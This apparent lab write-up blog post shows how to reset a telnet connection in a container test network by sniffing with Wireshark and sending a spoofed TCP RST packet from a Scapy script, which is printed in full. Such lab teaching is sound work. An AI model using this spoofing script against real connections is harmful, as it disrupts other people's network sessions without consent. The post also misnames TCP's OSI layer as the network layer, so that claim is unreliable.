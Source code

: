 +++
title = "TCP Attack Lab 1 - TCP Reset"
date = "2023-04-26"
description = "Resetting a TCP connection."

tags = ["network","security","writeups",]
+++


We reset a TCP connection between two hosts on our network.

TCP is a critical protocol at the fourth layer of the OSI model of the network stack, the network layer, yet it has some vulnerabilities. We will reset, hijack, and obtain a reverse shell from a `telnet` connection between two unsuspecting users to demonstrate the vulnerabilities.

In the first part of this series, we will conduct a TCP Reset attack on the `telnet` connection.


# Setup

Please see the series [overview post](/blog/posts/tcp-0-attack-lab) for setup instructions.

 
# Resetting a `telnet` Connection

In this demonstration, I will show how an attacker on the same LAN as two machines that have an existing telnet connection can reset the connection.

First, we need to simulate the `telnet` connection between User 1 and User 2. In one terminal window, establish the connection from user 1 to User 2.


# Reconnaissance 

Then, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

!["wireshark init page"](/blog/images/tcp-reset/wireshark-init.png)

Select the bridge interface.

---

In the `telnet` connection, I run a command like `echo hello` to generate some traffic over the `telnet` connection. 

!["victim telnet connection"](/blog/images/tcp-reset/telnet-init.png)

The existing telnet connection with a command executed. This image also shows the initial command used to establish the connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port number and sequence number used in the RST packet we will spoof from the attacker.

!["wireshark screen capture"](/blog/images/tcp-reset/wireshark.png)

Using Wireshark to construct our RST packet.

---


# Running the exploit

The following code will send our RST packet:

```python
from scapy.all import * 
import argparse
 
def spoof_reset_packet(src_port, seq_num):
  user1_ip = "10.9.0.6"
  user2_ip = "10.9.0.7"
  
  user1_port = src_port
  user2_port = 23
  
  ip = IP(src=user1_ip, dst=user2_ip)
  tcp = TCP(sport=user1_port, dport=user2_port, flags="R", seq=seq_num)
  pkt = ip/tcp
  
  print("SENDING RESET PACKET........")
  send(pkt, verbose=0)
   
if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
  parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)

  args = parser.parse_args()
  spoof_reset_packet(args.src_port, args.seq)
```

For convenience, I designed the program to take in arguments for the source port number and the sequence number. I invoke it as follows with the source port and sequence numbers taken from Wireshark.

!["attack"](/blog/images/tcp-reset/reset-attack.png)

Running the attack program with arguments for source port and sequence number.

---

When we go back to the `telnet` connection, we see that the connection was disconnected.

!["reset connection"](/blog/images/tcp-reset/reset-connection.png)

The telnet connection is reset.

---


# That's it!

In this post we learned about one exploit on TCP connections, namely the TCP Reset attack.

In the next part, we will expand on the knowledge gained from conducting the RST attack to hijack the `telnet` connection to run an arbitrary command.


### _Updated: April 26, 2023_